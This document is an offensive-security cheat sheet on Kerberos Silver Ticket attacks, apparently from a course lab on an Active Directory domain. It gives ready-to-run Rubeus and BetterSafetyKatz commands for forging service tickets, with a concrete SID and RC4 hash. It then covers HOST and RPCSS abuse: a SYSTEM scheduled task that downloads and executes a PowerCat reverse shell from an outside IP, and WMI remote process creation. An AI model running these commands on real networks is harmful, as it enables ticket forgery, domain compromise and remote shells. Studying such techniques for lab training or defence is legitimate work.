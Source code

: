# Silver Ticket

Silver ticket is signed and encrypted by the hash of **service** account which makes it a valid **TGS** ticket. More OpSec safer than Golden Ticket

## Create The Ticket

{% code overflow="wrap" %}
```powershell
# With Rubeus - HTTP can be changed to HOST, RPCSS, CIFS, LDAP(DC)
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:http/dcorp-dc /rc4:<machine_account> /sid:<domain_cid> /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
# Or with full domain
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:<machine_account> /sid:<domain_cid> /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt

# Anothery way
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:e9bb4c3d1327e29093dfecab8c2676f6 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

# Verify with winrs if HTTP
winrs -r:dcorp-dc cmd
# Use full domain name if it was given while key inject
winrs -r:dcorp-dc.dollarcorp.moneycorp.local cmd
```
{% endcode %}

<table><thead><tr><th width="318">Options</th><th width="431"></th></tr></thead><tbody><tr><td>kerberos::golden</td><td>Name of the module</td></tr><tr><td>/User:Administrator</td><td>Username for which the TGT is generated</td></tr><tr><td>/domain:</td><td>Domain FQDN</td></tr><tr><td>/sid:</td><td>SID of the domain</td></tr><tr><td>/target:</td><td>Target server FQDN</td></tr><tr><td>/service:</td><td>The SPN name of service for which TGS is to be created</td></tr><tr><td>/aes256:</td><td>AES256 keys of the krbtgt account</td></tr><tr><td>/id:500 /groups:512</td><td>Optional User and Group RID</td></tr><tr><td>/ptt</td><td>ptt: inject ticket to current process</td></tr><tr><td>/startoffset:0</td><td>Optional when the ticket is available in minutes.<br>Use negative for a ticket available from past and a larger number for future.</td></tr><tr><td>/endin:600</td><td>Optional ticket lifetime in minutes. (default <strong>10</strong> years)<br>The default AD setting is 10 hours = 600 minutes</td></tr><tr><td>/renewmax:10080</td><td>Optional ticket lifetime with renewal in minutes. (default is <strong>10</strong> years)<br>The default AD setting is 7 days = 100800</td></tr></tbody></table>

## Abusing Services

### HOST

HOST Service permission allows to create scheduled tasks in remote computers\
The Silver ticket needs to be created with the NT Hash of the target machine

```bash
# Check you have permissions 
schtasks /S dcorp-dc.dollarcorp.moneycorp.local

#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "Job" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.83/powercat.ps1''')'"

#Run created schtask now
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "Job"
```

### HOST + RPCSS

With these tickets you can **execute WMI in the victim system**:

```bash
#Check you have permissions 
Invoke-WmiMethod -class win32_operatingsystem -ComputerName dcorp-dc

# Execute code
Invoke-WmiMethod win32_process -ComputerName $Computer -name create -argumentlist "$Program"

gwmi -class win32_operatingsystem -ComputerName dcorp-dc  
```
